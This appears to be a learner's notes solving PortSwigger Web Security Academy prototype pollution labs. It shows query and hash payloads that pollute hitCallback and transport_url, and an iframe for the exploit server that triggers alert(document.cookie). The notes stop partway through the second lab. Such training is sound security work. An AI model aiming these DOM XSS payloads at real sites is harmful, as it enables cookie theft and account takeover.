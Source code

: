 To solve the lab:

    Use DOM Invader to identify a prototype pollution and a gadget for DOM XSS.

    Use the provided exploit server to deliver a payload to the victim that calls alert(document.cookie) in their browser.

This lab is based on real-world vulnerabilities discovered by PortSwigger Research. For more details, check out Widespread prototype pollution gadgets by Gareth Heyes. 

1. via DOM invader find exploit (I have changed the values t0 1-8 to note which one executes in the end):
```
https://0a77001503c2c28ac1a7eb5b004b0064.web-security-academy.net/?constructor[prototype][hitCallback]=alert%281%29&constructor.prototype.hitCallback=alert%282%29&__proto__.hitCallback=alert%283%29&__proto__[hitCallback]=alert%284%29#constructor[prototype][hitCallback]=alert%285%29&constructor.prototype.hitCallback=alert%286%29&__proto__.hitCallback=alert%287%29&__proto__[hitCallback]=alert%288%29
```
2. in exploit server prepare an iframe:
```
<iframe src="https://0a77001503c2c28ac1a7eb5b004b0064.web-security-academy.net/?constructor[prototype][hitCallback]=alert%281%29&constructor.prototype.hitCallback=alert%282%29&__proto__.hitCallback=alert%283%29&__proto__[hitCallback]=alert%284%29#constructor[prototype][hitCallback]=alert%285%29&constructor.prototype.hitCallback=alert%286%29&__proto__.hitCallback=alert%287%29&__proto__[hitCallback]=alert%28document.cookie%29">
```

# POP

[How to prevent prototype pollution vulnerabilities](https://portswigger.net/web-security/prototype-pollution/preventing)


# [3. Lab: Client-side prototype pollution via flawed sanitization](https://portswigger.net/web-security/prototype-pollution/preventing/lab-prototype-pollution-client-side-prototype-pollution-via-flawed-sanitization)

 This lab is vulnerable to DOM XSS via client-side prototype pollution. Although the developers have implemented measures to prevent prototype pollution, these can be easily bypassed.

To solve the lab:

    Find a source that you can use to add arbitrary properties to the global Object.prototype.

    Identify a gadget property that allows you to execute arbitrary JavaScript.

    Combine these to call alert()


1. with DOM invader find:
```
https://0a590058032b61ccc35d492b004a003b.web-security-academy.net/?constructor[prototype][transport_url]=data%3A%2Calert%281%29&constructor.prototype.transport_url=data%3A%2Calert%281%29&__proto__.transport_url=data%3A%2Calert%281%29&__proto__[transport_url]=data%3A%2Calert%281%29#constructor[prototype][transport_url]=data%3A%2Calert%281%29&constructor.prototype.transport_url=data%3A%2Calert%281%29&__proto__.transport_url=data%3A%2Calert%281%29&__proto__[transport_url]=data%3A%2Calert%281%29
```
